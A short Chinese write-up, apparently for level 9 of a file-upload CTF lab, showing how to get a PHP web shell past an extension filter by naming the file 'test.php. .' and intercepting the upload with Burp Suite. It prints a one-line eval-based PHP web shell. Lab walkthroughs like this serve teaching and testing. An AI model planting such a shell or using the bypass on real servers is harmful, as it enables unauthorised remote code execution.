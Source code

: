 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第九关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

##### ![](./img/3.png)

##### 上传test.php. .(php后面加上点空格点)

## 4.我们可以使用Burpsutie抓包，利用特性绕过

![](./img/4.png)

